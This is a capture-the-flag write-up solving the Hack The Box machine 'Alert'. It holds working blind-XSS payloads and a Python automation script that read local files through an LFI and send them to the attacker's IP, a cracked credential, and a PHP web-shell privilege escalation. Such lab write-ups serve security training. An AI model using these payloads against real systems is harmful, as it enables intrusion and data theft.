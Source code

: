 ```yaml
---
layout: post
title:  "[HTB] Alert"
date:   2029-01-17
categories: CTF
---
```


As usual let us start with our nmap scan

---
└─$ nmap 10.10.11.44          
Starting Nmap 7.94 ( https://nmap.org ) at 2024-12-06 03:48 EST
Nmap scan report for alert.htb (10.10.11.44)
Host is up (0.064s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
---

Seeing that we only have ports 22 and 80 here, highly likely our initial access will come from port 80. So let us visit port 80 and see that this is a markdown viewer of some sort wherein we can upload md files.

![alt text](/assets/uploads/htb-alert/image.png)

Trying to upload an md file, we see that it doesnt filter out any html and script tags, and it generates a share link for us. So we can leverage this by creating an XSS payload and sending this to the admin side. But how can we send this to the admin side?  

![alt text](/assets/uploads/htb-alert/image-2.png)

![alt text](/assets/uploads/htb-alert/image-1.png)

Upon looking at the web application, we see that there is a contact us feature which is exactly what we need. 

![alt text](/assets/uploads/htb-alert/image-3.png)

We can more or less deduce that our path would be to create a blind XSS payload and send it to the admin side and gain more information about the machine. 

To try this hypothesis, we create a basic blind xss payload as follows `<script src="//10.10.14.32/zw1tt3r1on.test"></script>`. When we try and upload this file and share it to the admin side by the contact us page, we see that we get a callback from the server

![alt text](/assets/uploads/htb-alert/image-4.png)

From here, we can craft a specific payload to try and fetch the homepage and send the data back to us

---
<script>
fetch("http://alert.htb/")
  .then(response => response.text()) // Convert the response to text
  .then(data => {
    fetch("http://10.10.14.32/?data=" + encodeURIComponent(data)); // Exfiltrate data
  })
  .catch(error => console.error("Error fetching the messages:", error));
</script>
---

We discover now that there is a hidden endpoint called "messages" which corresponds to messages.php.

![alt text](/assets/uploads/htb-alert/image-5.png)

Trying to fetch this messages.php gives us an interesting parameter called "file". 

<script>
fetch("http://alert.htb/messages.php")
  .then(response => response.text()) // Convert the response to text
  .then(data => {
    fetch("http://10.10.14.32/?data=" + encodeURIComponent(data)); // Exfiltrate data
  })
  .catch(error => console.error("Error fetching the messages:", error));
</script>
---

![alt text](/assets/uploads/htb-alert/image-6.png)

Testing this file parameter, we discover that this is vulnerable to a LFI. We can now use this to fetch files within the machine. Sample below is fetching the /etc/passwd file on the machine.

---
<script>
fetch("http://alert.htb/messages.php?file=../../../../../../etc/passwd")
  .then(response => response.text()) // Convert the response to text
  .then(data => {
    fetch("http://10.10.14.32/?data=" + encodeURIComponent(data)); // Exfiltrate data
  })
  .catch(error => console.error("Error fetching the messages:", error));
</script>
---

![alt text](/assets/uploads/htb-alert/image-7.png)

Now we just need to enumerate the machine and look for interesting files. For this, I create a very simple python script to automatically upload the md file and send the link to the contact us page as shown below

---
import requests, re

def send_to_contact(file_name):
    burp0_url = "http://alert.htb:80/contact.php"
    burp0_headers = {"Cache-Control": "max-age=0", "Upgrade-Insecure-Requests": "1", "Origin": "http://alert.htb", "Content-Type": "application/x-www-form-urlencoded", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.171 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,/assets/uploads/htb-alert/image/avif,/assets/uploads/htb-alert/image/webp,/assets/uploads/htb-alert/image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7", "Referer": "http://alert.htb/index.php?page=contact&status=Message%20sent%20successfully!", "Accept-Encoding": "gzip, deflate", "Accept-Language": "en-US,en;q=0.9", "Connection": "close"}
    burp0_data = {"email": "jl@jl.com", "message": file_name}
    requests.post(burp0_url, headers=burp0_headers, data=burp0_data)


def send_md_request(file_path):
    burp0_url = "http://alert.htb:80/visualizer.php"
    burp0_headers = {
        "Cache-Control": "max-age=0",
        "Upgrade-Insecure-Requests": "1",
        "Origin": "http://alert.htb",
        "Content-Type": "multipart/form-data; boundary=----WebKitFormBoundaryJFBXbjnjqVK66x3C",
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.171 Safari/537.36",
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,/assets/uploads/htb-alert/image/avif,/assets/uploads/htb-alert/image/webp,/assets/uploads/htb-alert/image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7",
        "Referer": "http://alert.htb/index.php?page=alert",
        "Accept-Encoding": "gzip, deflate",
        "Accept-Language": "en-US,en;q=0.9",
        "Connection": "close"
    }
    burp0_data = f"""------WebKitFormBoundaryJFBXbjnjqVK66x3C\r\nContent-Disposition: form-data; name="file"; filename="jltest.md"\r\nContent-Type: text/markdown\r\n\r\n<script>
fetch("http://alert.htb/messages.php?file={file_path}")
  .then(response => response.text()) // Convert the response to text
  .then(data => {{
    fetch("http://10.10.14.32/?d1=" + encodeURIComponent(data)); // Exfiltrate data
  }})
  .catch(error => console.error("Error fetching the messages:", error));
</script>\r\n------WebKitFormBoundaryJFBXbjnjqVK66x3C--\r\n"""
    response = requests.post(burp0_url, headers=burp0_headers, data=burp0_data)

    regex_template = r'href="(http://alert\.htb/visualizer\.php\?link_share=[^"]+)"'
    match = re.search(regex_template, str(response.text))
    url = match.group(1)
    print('sending url: ', url)
    send_to_contact(url)

while True:
    send_md_request(input('enter path: '))

---

![alt text](/assets/uploads/htb-alert/image-8.png)

Looking at the 000-default.conf file, we see that there is another subdomain called statistics

![alt text](/assets/uploads/htb-alert/image-10.png)

![alt text](/assets/uploads/htb-alert/image-9.png)

Visiting the statistics subdomain gives us a basic auth login 

![alt text](/assets/uploads/htb-alert/image-11.png)

Since we have a way to read local files within the machine, we can read the .htpasswd file of statistics.alert.htb at /var/www/statistics.alert.htb/.htpasswd and we get the credentials of the user "albert"

![alt text](/assets/uploads/htb-alert/image-13.png)

![alt text](/assets/uploads/htb-alert/image-12.png)

Cracking this hash, we get the password is "manchesterunited". 

![alt text](</assets/uploads/htb-alert/2024-12-06 16_28_45.png>)

We can now use this to login using ssh and we get our user flag

![alt text](/assets/uploads/htb-alert/image-16.png)

Looking for possible privilege escalation pathways, we observe that there is a php process running serving files on port 8080 as root. 

![alt text](</assets/uploads/htb-alert/2024-12-06 16_42_12.png>)

So we port forward this using ssh and take a look at what it is exactly running

![alt text](/assets/uploads/htb-alert/image-14.png)

![alt text](/assets/uploads/htb-alert/image-15.png)

Since it is serving files on the /opt/website-monitor directory, we just need to find a way to write something in the /opt/website-monitor and get a php shell.

![alt text](/assets/uploads/htb-alert/image-17.png)

Since we know that we can write in the config and monitors folder, let us quickly write a php web shell and visit that page 

![alt text](/assets/uploads/htb-alert/image-18.png)

![alt text](/assets/uploads/htb-alert/image-19.png)

From here we can just get a reverse shell using our web shell and get the root flag, or just simply cat the root flag using this web shell

![alt text](/assets/uploads/htb-alert/image-20.png)

Pwned!!

![alt text](/assets/uploads/htb-alert/image-21.png)